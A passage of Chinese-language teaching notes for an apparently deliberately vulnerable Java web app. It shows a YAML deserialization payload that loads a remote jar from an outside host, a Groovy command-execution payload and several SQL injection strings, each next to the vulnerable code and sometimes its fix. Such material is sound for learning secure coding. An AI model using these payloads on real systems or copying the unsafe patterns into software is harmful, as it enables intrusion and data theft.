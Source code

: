 #### yaml

> yaml-payload.jar: https://github.com/artsploit/yaml-payload  
 
`http://localhost:8080/rce/vuln/yarm?content=!!javax.script.ScriptEngineManager%20[!!java.net.URLClassLoader%20[[!!java.net.URL%20[%22http://test.joychou.org:8086/yaml-payload.jar%22]]]]`
```java
@GetMapping("/vuln/yarm")  
public void yarm(String content) {  
Yaml y = new Yaml();  
// 正确写法：Yaml y = new Yaml(new SafeConstructor());
y.load(content);  
}
```

#### groovy

`http://localhost:8080/rce/groovy?content="open -a Calculator".execute()`

```java
@GetMapping("groovy")  
public void groovyshell(String content) {  
GroovyShell groovyShell = new GroovyShell();  
groovyShell.evaluate(content);  
}
```
### SqlInject

sql注入的问题可能是直接执行了`raw sql`,并且手动拼接;也可能是没有正确使用`orm`框架，参数指定的位置不正确。

#### raw sql

```java
// 手拼raw sql
Statement statement = con.createStatement();
String sql = "select * from users where username = '" + username + "'";
ResultSet rs = statement.executeQuery(sql);
```

`/sqli/jdbc/vuln?username=joychou' or 1=1%23`

#### Incorrect prepareStatement

```java
// PreparedStatement 是java原生的sql预编译函数
// 这里应该用?表示预编译的字符串
String sql = "select * from users where username = '" + username + "'";
PreparedStatement st = con.prepareStatement(sql);
ResultSet rs = st.executeQuery();
```

`/sqli/jdbc/ps/vuln?username=joychou' or 'a'='a'%23`

#### Incorrect mybatis

```java
// 用${}不会预编译，应该用#{}
// SQLI.java
@GetMapping("/mybatis/vuln01")
public List<User> mybatisVuln01(@RequestParam("username") String username) {
    return userMapper.findByUserNameVuln01(username);
    }

// UserMapper.java
@Select("select * from users where username = '${username}'")
List<User> findByUserNameVuln01(@Param("username") String username);

```
